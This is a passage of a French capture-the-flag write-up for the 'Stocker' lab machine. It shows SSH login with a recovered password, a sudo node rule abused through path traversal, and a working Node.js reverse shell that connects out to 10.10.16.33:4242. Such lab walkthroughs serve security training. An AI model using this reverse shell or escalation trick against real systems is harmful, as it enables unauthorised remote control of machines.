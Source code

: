 
On voit qu'il y a un mot de passe : "IHeardPassphrasesArePrettySecure"

On l'essaye en ssh `ssh angoose@stocker.htb` et bingo, on accède au user !


## Élévation de privilèges

Là, ça semble très simple. Première commande faite : `sudo -l`

Et résultat :

```sh
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

### Exploitation

`/tmp/shell.js`

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.10.16.33", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
Puis :

`sudo /usr/bin/node /usr/local/scripts/../../../../../../tmp/shell.js`

Et voilà !
